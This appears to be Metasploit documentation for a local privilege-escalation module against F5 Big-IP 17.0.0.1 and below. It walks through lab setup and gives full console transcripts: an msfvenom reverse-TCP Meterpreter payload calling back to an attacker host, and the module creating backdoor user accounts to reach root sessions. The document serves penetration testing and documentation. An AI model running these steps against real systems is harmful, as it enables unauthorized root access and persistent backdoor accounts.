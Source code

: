 ## Vulnerable Application

The vulnerable application is F5 Big-IP version 17.0.0.1 and below. It can be
downloaded as a VMWare image for free (you have to create an account) from
https://downloads.f5.com. You can register for a free 30-day trial if you like,
but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get a non-root session somehow (eg: `use multi/handler` / `set PAYLOAD linux/x64/meterpreter_reverse_tcp` then `./msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.179 LPORT=4444 -f elf > testexploit.elf && scp testexploit.elf root@10.0.0.162:/tmp && ssh root@10.0.0.162 /bin/bash << EOF
chmod +x /tmp/testexploit.elf
sudo -u apache /tmp/testexploit.elf
EOF`)
4. Do: `use exploit/linux/local/f5_create_user`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get a session

## Options

### `USERNAME` / `PASSWORD`

The username and final password for the account. If blank, they'll be randomly
generated.

### `CREATE_SESSION`

If set (which is default), will spawn a root session. Otherwise, simply creates
the account.

## Scenarios

### F5 Big-IP 17.0.0.1 - Create a session with random creds

First, get a non-root session however you can. You can use a `multi/handler`
and `msfvenom`:

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp

msf6 exploit(multi/handler) > set LHOST 10.0.0.179
LHOST => 10.0.0.179

msf6 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:34140) at 2022-11-14 15:59:49 -0800

[...run the payload...]

meterpreter > getuid
Server username: apache

meterpreter > bg

msf6 exploit(multi/handler) > setg SESSION 1
SESSION => 1
```

To create and run the payload, in another window:

```
$ ./msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.0.0.179 LPORT=4444 -f elf > testexploit.elf && chmod +x testexploit.elf && scp testexploit.elf root@10.0.0.162:/tmp && ssh root@10.0.0.162 sudo -u apache /tmp/testexploit.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1068640 bytes
Final size of elf file: 1068640 bytes
testexploit.elf
```

Now that we have a session, we can just run the module:

```
msf6 exploit(multi/handler) > use exploit/linux/local/f5_create_user
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user 7yI5vLIK / woquVd36PhcG, then change password to 9d9s83bBPwu5 when creating a session
[+] Service didn't return an error, so user was likely created!
[*] Attempting create a root session...
[*] Sending stage (40168 bytes) to 10.0.0.162
[*] Meterpreter session 2 opened (10.0.0.179:4444 -> 10.0.0.162:45254) at 2022-11-14 16:02:10 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Create a session with set creds

Create a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set USERNAME mymsfdemouser
USERNAME => mymsfdemouser
msf6 exploit(linux/local/f5_create_user) > set PASSWORD mybigmsfdemopassword
PASSWORD => mybigmsfdemopassword
msf6 exploit(linux/local/f5_create_user) > set VERBOSE true
VERBOSE => true
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser / QVEE0pqM7pAd, then change password to mybigmsfdemopassword when creating a session
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
[*] Attempting create a root session...
[*] Sending stage (40164 bytes) to 10.0.0.162
[*] Output from su command: Password: You are required to change your password immediately (root enforced)
(current) BIG-IP password: New BIG-IP password: Retype new BIG-IP password: Changing password for mymsfdemouser.
[*] Meterpreter session 3 opened (10.0.0.179:4444 -> 10.0.0.162:49646) at 2022-11-14 16:03:04 -0800

meterpreter > getuid
Server username: root
```

### F5 Big-IP 17.0.0.1 - Just create an account with random creds

Get a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set CREATE_SESSION false
CREATE_SESSION => false
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user hKjGGrlU / yRQijFQjVjqa
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
^C[*] Exploit completed, but no session was created.
```

### F5 Big-IP 17.0.0.1 - Just create an account with set creds

Get a session as shown above, then:

```
msf6 exploit(linux/local/f5_create_user) > set CREATE_SESSION false
CREATE_SESSION => false
msf6 exploit(linux/local/f5_create_user) > set USERNAME mymsfdemouser2
USERNAME => mymsfdemouser2
msf6 exploit(linux/local/f5_create_user) > set PASSWORD mybigmsfdemopassword
PASSWORD => mybigmsfdemopassword
msf6 exploit(linux/local/f5_create_user) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser2 / mybigmsfdemopassword
[*] Hashing the password with a pseudorandom salt
[+] Service didn't return an error, so user was likely created!
^C[*] Exploit completed, but no session was created.
```

### F5 Big-IP 17.0.0.1 - Create an account with an error

Get a session as shown above, then (we use a duplicate username):

```

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Will attempt to create user mymsfdemouser2 / mybigmsfdemopassword
[*] Hashing the password with a pseudorandom salt
[-] mcp query returned an error message: 01020066:3: The requested user (mymsfdemouser2) already exists in partition Common. (code: 16908390)
```
